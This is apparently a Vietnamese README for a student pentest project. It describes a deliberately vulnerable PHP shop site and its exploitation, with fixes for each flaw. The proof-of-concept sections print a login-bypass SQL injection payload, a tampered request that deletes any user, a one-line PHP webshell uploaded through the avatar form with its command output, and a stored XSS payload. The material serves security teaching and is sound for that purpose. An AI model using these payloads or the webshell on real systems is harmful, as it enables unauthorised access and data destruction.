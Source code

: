 # Pentest Website - OWASP Top 10  

## 1. Giới thiệu  

### Mô tả  
Đây là project về Pentest cơ bản, tập trung vào việc xây dựng một website có chứa lỗ hổng bảo mật và tiến hành khai thác, sau đó đưa ra giải pháp khắc phục.  

### Mục tiêu  
- Xây dựng website có chứa 5 lỗ hổng thuộc **OWASP Top 10 (2021)**.  
- Khai thác và kiểm thử các lỗ hổng.  
- Đề xuất giải pháp khắc phục.  
- Triển khai website trên một máy chủ thực tế (Linux, Ubuntu, Windows).  

### Cách tiếp cận  
Phương pháp kiểm thử bảo mật được sử dụng trong project này là **Whitebox Pentesting**, nghĩa là:  
- Có quyền truy cập mã nguồn và hệ thống.  
- Kiểm thử từ góc nhìn của developer.  
- Chủ động tạo và khai thác lỗ hổng trong mã nguồn.  

---

## 2. Các chức năng chính  
Website được xây dựng theo mô hình **MVC (Model-View-Controller)** và có các chức năng chính như:  
- ✅ Đăng nhập  
- ✅ Định danh, xác thực người dùng  
- ✅ Phân quyền người dùng  
- ✅ Quản lý bài viết, bình luận, hệ thống giỏ hàng và tiền tệ  
- ✅ Hỗ trợ upload file  
- ✅ Triển khai trên máy chủ  

# Giao diện Website

### 🔹 Giao diện chính

| Login | Register | Shop |
|---|---|---|
| ![Login](screenshots/login.png) | ![Register](screenshots/register.png) | ![Shop](screenshots/shop.png) |

| Cart | Checkout | Profile |
|---|---|---|
| ![Cart](screenshots/cart.png) | ![Checkout](screenshots/checkout.png) | ![Profile](screenshots/profile.png) |

---

<details>
  <summary>📸 Xem thêm ảnh giao diện phụ</summary>

  | Comment |  Blog |
  |---|---|
  | ![Comment](screenshots/comment.png) | ![Blog](screenshots/blog.png) |

</details>

---

## 3. Thống kê lỗ hổng OWASP Top 10 (2021)

| STT | Lỗ hổng | Mô tả | Vị trí | Mức độ |
|---|---|---|---|---|
| **1** | **A03:2021 - Injection (SQLi)** | SQL Injection trong truy vấn đăng nhập. | `/login.php` | 🔴 Cao |
| **2** | **A01:2021 - Broken Access Control** | Xóa user không xác thực quyền admin. | `/profile/updateEmail` | 🔴 Cao |
| **3** | **A08:2021 - Software and Data Integrity Failures (RCE)** | Upload file `.php` gây RCE. | `/profile/uploadAvatar` | 🔴 Cao |
| **4** | **A03:2021 - Injection (Stored XSS)** | Stored XSS trong bình luận blog do không lọc input. | `/blog_detail.php` | 🟠 Trung bình |
| **5** | **A05:2021 - Security Misconfiguration** | Truy cập file backup `git_old`, lộ thông tin. | `/backup/git_old` | 🟠 Trung bình |


---

## 4. Khai thác lỗ hổng  
<details>
  <summary>🛑<strong>A03:2021 - Injection (SQLi) - Bypass Đăng Nhập</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép bypass xác thực password, truy cập tài khoản nếu biết username hợp lệ.  
- **Hệ lụy**:  
  - Tấn công viên có thể đăng nhập vào tài khoản bất kỳ mà không cần mật khẩu đúng.  
  - Có thể leo thang đặc quyền nếu truy cập vào tài khoản admin.  
  - Tiềm năng khai thác sâu hơn nếu kết hợp với các kỹ thuật SQLi khác (ví dụ: UNION).  

---

### 📌 Phát Hiện Chung
- Truy vấn SQL tại **`/login.php`** không lọc đầu vào của biến `$username`.  
- Cho phép thực hiện **SQL Injection** bằng cách chèn ký tự `#` để comment bỏ điều kiện password.  
- Payload `carlos'#` (với `carlos` là username thật) bỏ qua kiểm tra password, cho phép login mà không cần mật khẩu đúng.  
- Payload `' OR 1=1 --` ` -- ` không hoạt động do xử lý lỗi trong `Database.php`.  

---

### 🛠 PoC - Bằng Chứng Khai Thác
#### 📌 1. Payload Tấn Công:
--------------------------------
```
Username: carlos'#
Password: (bất kỳ)
```
#### 🖥 2. Request Gửi Đến Server:
--------------------------------
```
POST /web_pen_v1/login/process HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

username=carlos'#&password=randompassword
```
#### 🛠 3. Truy Vấn SQL Bị Thao Túng:
--------------------------------
```
SELECT * FROM users WHERE username = 'carlos'#' AND password = 'randompassword';
```

#### ✅ 4. Response Thành Công:
--------------------------------
HTTP/1.1 302 Found
Location: /home.php

#### 🚨 5. Ảnh Chụp Màn Hình:
--------------------------------
| PoC SQL Injection | Burp Suite PoC |
|---|---|
| ![SQL PoC](screenshots/sqlt1.png) | ![Burp Suite PoC](screenshots/sqlit2.png) |

###  🔧 Biện Pháp Khắc Phục Được Đề Xuất
- Sử dụng Prepared Statement (PDO / MySQLi) để bind tham số:
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
$user = $stmt->fetch();
```
- Không sử dụng truy vấn SQL với chuỗi nối trực tiếp từ input người dùng.
- Bật chế độ báo lỗi và log lỗi thay vì hiển thị lỗi SQL ra ngoài.
- Bổ sung hash password bằng password_hash() trong Register.php và verify bằng password_verify() trong Login.php.
</details> 

<details>
  <summary>🛑<strong> A01:2021 - Broken Access Control - Xóa Bất Kỳ User</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép người dùng thường xóa bất kỳ tài khoản nào, kể cả admin.  
- **Hệ lụy**:  
  - Tấn công viên có thể xóa tài khoản quan trọng, gây mất dữ liệu.  
  - Nếu admin bị xóa, hệ thống có thể mất quyền quản lý.  
  - Không có kiểm tra quyền, bất kỳ user nào cũng có thể khai thác.  

---

### 📌 Phát Hiện Chung
- Trang **Profile** có chức năng cập nhật email (`updateEmail()`), nhưng **hàm xóa user (`deleteUser()`) không có kiểm tra quyền**.  
- Kẻ tấn công có thể **thay đổi request** từ `updateEmail` thành `deleteUser` để xóa bất kỳ tài khoản nào, kể cả admin.  
---

### 🛠 PoC - Bằng Chứng Khai Thác  

#### 📌 1. Đăng nhập vào hệ thống với một tài khoản bình thường.  
#### 📌 2. Chặn request bằng Intercept -> Gửi đến Repeater.  
#### 📌 3. Sửa request `/profile/updateEmail` -> /profile/deleteUser + used_id'random'.  

**Yêu cầu gốc (Request hợp lệ - cập nhật email):**
```
POST /web_pen_v1/profile/updateEmail HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/web_pen_v1/profile
Cookie: PHPSESSID=bbq2e7f3trj6afj73sq4jru0t5
Upgrade-Insecure-Requests: 1
Priority: u=0, i

csrf_token=&email=son%40testa01.com
```
#### 📌 4. Chỉnh sửa request:
-Đổi URL /profile/updateEmail thành /profile/deleteUser.
-Thêm tham số user_id với giá trị ID của nạn nhân (ví dụ: 6 là neovim).
Yêu cầu đã chỉnh sửa (Request tấn công - xóa user ID 6):
```
POST /web_pen_v1/profile/deleteUser HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/web_pen_v1/profile
Cookie: PHPSESSID=bbq2e7f3trj6afj73sq4jru0t5
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user_id=6
```
#### ✅ 5. Gửi request.
- Nếu lỗ hổng tồn tại, tài khoản có id=6 sẽ bị xóa mà không cần quyền admin.
- Nếu admin bị xóa, hệ thống có thể bị vô hiệu hóa hoặc rơi vào trạng thái không thể quản lý.
- 📸 Ảnh Chụp Màn Hình (PoC Visuals)
	
| Step | Description | Images |
|---|---|---|
| **1** | *Database chứa thông tin user trước khi bị xóa.* | ![Database](screenshots/database.png) |
| **2** | *Mã nguồn có lỗ hổng trong hàm `deleteUser()` không kiểm tra quyền.* | ![Code](screenshots/a1-deleteUser.png) |
| **3** | *Chặn request cập nhật email bằng Burp Suite để thay đổi thành xóa user.* | ![Update + Capture](screenshots/a1-0.png) |
| **4** | *Payload thay đổi request từ update email sang delete user.* | ![Payload](screenshots/a1-1.png) |
| **5** | *Tài khoản đã bị xóa thành công sau khi gửi request.* | ![Result](screenshots/a1-3result.png) |



#### 🔧 Biện Pháp Khắc Phục Đề Xuất
Kiểm tra quyền admin trước khi xóa user:
```
if (!isset($_SESSION['role']) || $_SESSION['role'] !== 'admin') {
    $_SESSION['error'] = "Unauthorized access!";
    header("Location: " . URLROOT . "/profile");
    exit();
}
```
- Sử dụng CSRF token để tránh giả mạo request.
- Ghi log hoạt động quan trọng để theo dõi thao tác quản trị.
</details> 
<details>  
  <summary>🛑<strong> A08:2021 - Software and Data Integrity Failures (RCE) - Upload Webshell</strong></summary>

## 🔥 Tầm Quan Trọng Của Phát Hiện Chính  
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép thực thi mã từ xa (RCE) trên server.  
- **Hệ lụy**:  
  - Kẻ tấn công có thể tải lên và thực thi mã độc.  
  - Có thể truy cập trái phép vào hệ thống file của server.  
  - Mở đường cho tấn công leo thang đặc quyền hoặc pivoting sang các hệ thống khác.  

---

## 📌 Phát Hiện Chung  
- Chức năng **Upload Avatar** tại `/profile` **không kiểm tra kỹ loại file tải lên**.  
- Ứng dụng **chỉ kiểm tra phần mở rộng (extension)**, nhưng kẻ tấn công có thể bypass bằng cách đổi **header request**.  
- Nếu file `.php` được upload thành công, kẻ tấn công có thể **thực thi lệnh trên máy chủ từ xa**.  

---

## 🛠 PoC - Bằng Chứng Khai Thác  

### 📌 1. Kiểm tra chức năng upload với file hình ảnh hợp lệ.  
- Upload một file `.png` để kiểm tra đường dẫn lưu trữ trên server.  
- Quan sát thấy file được lưu vào thư mục `/web_pen_v1/public/uploads/`.  
  | Test |  Check |
  |---|---|
  | ![Test](screenshots/testimg.png) | ![Check](screenshots/checkimg.png) |
---

### 📌 2. Tạo Webshell với payload PHP  
Tạo file **`pls.php`** với nội dung:  
```php
<?php echo system($_GET['command']); ?>
```
### 📌 3. Upload file pls.php thông qua chức năng Upload Avatar
  | Check |  Test |
  |---|---|
  | ![Check](screenshots/check-webshell.png) | ![Test](screenshots/upload-webshell.png) |
### 📌 4. Thực thi lệnh từ xa
Gửi request thực thi lệnh whoami để xác định user chạy webserver:
```
GET /web_pen_v1/public/uploads/pls.php?command=whoami HTTP/1.1
Host: localhost
````
-Response trả về:
```
HTTP/1.1 200 OK
Server: Apache/2.4.62 (Win64) OpenSSL/3.0.15 PHP/8.3.16
...
desktop-4kbnl3q\ducson
```
-👉 Điều này chứng minh lệnh đã được thực thi trên máy chủ.

### 🚨 5. Ảnh Chụp Màn Hình (PoC Visuals)
| Step | Description | Images |
|------|------------|--------|
| 1 | Kiểm tra webshell có thể tải lên hay không. | ![Check](screenshots/check-webshell.png) |
| 2 | Tải lên file webshell `pls.php`. | ![Upload](screenshots/upload-webshell.png) |
| 3 | Truy cập webshell qua trình duyệt và gửi lệnh. | ![Webshell-1](screenshots/webshell-1.png) |
| 4 | Thực thi lệnh từ xa và nhận kết quả. | ![Webshell-2](screenshots/webshell-2.png) |
| 5 | Response hiển thị kết quả `apache`, chứng minh RCE thành công. | ![Result](screenshots/result-rce.png) |
### 🔧 Biện Pháp Khắc Phục Được Đề Xuất
#### ✅ 1. Kiểm tra loại file bằng MIME type thay vì chỉ kiểm tra phần mở rộng
- Sử dụng finfo_file() để kiểm tra loại file thực sự:
```
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime_type = finfo_file($finfo, $_FILES['avatar']['tmp_name']);
finfo_close($finfo);
$allowed_types = ['image/jpeg', 'image/png', 'image/gif'];
if (!in_array($mime_type, $allowed_types)) {
    die("File type not allowed!");
}
```
#### ✅ 2. Đổi tên file khi lưu trữ để ngăn chặn thực thi
```
$newFileName = uniqid() . ".jpg";
move_uploaded_file($_FILES['avatar']['tmp_name'], "uploads/" . $newFileName);
```
#### ✅ 3. Vô hiệu hóa PHP trong thư mục uploads bằng .htaccess
-Tạo file .htaccess trong uploads/ với nội dung:
```
<FilesMatch "\.php$">
    Deny from all
</FilesMatch>
```
#### ✅ 4. Định dạng lại quyền thư mục
Đặt quyền chmod 644 cho file, chmod 755 cho thư mục uploads để tránh thực thi mã độc.

</details>
<details>  
  <summary>🛑<strong> A03:2021 - Injection (Stored XSS) - Bình luận Blog</strong></summary>

## 🔥 Tầm Quan Trọng Của Phát Hiện Chính  
- **Mức độ**: 🟠 Trung bình  
- **Ảnh hưởng**: Cho phép thực thi mã JavaScript độc hại trên trình duyệt của người dùng.  
- **Hệ lụy**:  
  - Đánh cắp cookie hoặc dữ liệu phiên của người dùng.  
  - Tạo ra các cuộc tấn công giả mạo (phishing).  
  - Chiếm quyền điều khiển tài khoản nếu kết hợp với các lỗ hổng khác.  
---

## 📌 Phát Hiện Chung  
- Tại trang **`blog_detail.php`**, người dùng có thể để lại bình luận dưới mỗi bài viết.  
- Ứng dụng **không kiểm tra hoặc mã hóa dữ liệu đầu vào**, cho phép chèn mã JavaScript.  
- Khi bình luận chứa mã độc được hiển thị trên trang, nó **tự động thực thi trên trình duyệt** của các người dùng khác.  
---

## 🛠 PoC - Bằng Chứng Khai Thác  

### 📌 1. Gửi Payload XSS  
- Truy cập trang chi tiết bài viết (`blog_detail.php`).  
- Nhập nội dung bình luận với payload sau:  

```html
<script>alert("Check")</script>

```
---

### 📌 2. Kiểm tra kết quả  
- Truy cập lại trang `blog_detail.php` và quan sát trình duyệt.  
- Nhận thấy **hộp thoại alert xuất hiện**, chứng tỏ mã JavaScript đã được thực thi.  

📸 **Ảnh minh họa**:  

| Gửi Payload XSS | XSS được kích hoạt |
|-----------------|-------------------|
| ![Comment XSS](screenshots/comment-xss.png) | ![Alert XSS](screenshots/alert-xss.png) |
---

## 🔧 Biện Pháp Khắc Phục Được Đề Xuất  

#### ✅ 1. Lọc & mã hóa đầu vào  
- Trước khi lưu bình luận vào database, mã hóa ký tự đặc biệt:  

```
php
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');

```
  
#### ✅ 2. Xác thực đầu vào  
- Chỉ cho phép nhập văn bản thuần bằng cách kiểm tra regex hoặc whitelist các ký tự hợp lệ.  

#### ✅ 3. Sử dụng Content Security Policy (CSP)  
- Cấu hình CSP để chặn việc thực thi mã JavaScript nội tuyến:  
```
Content-Security-Policy: default-src 'self'; script-src 'self';
```
</details>

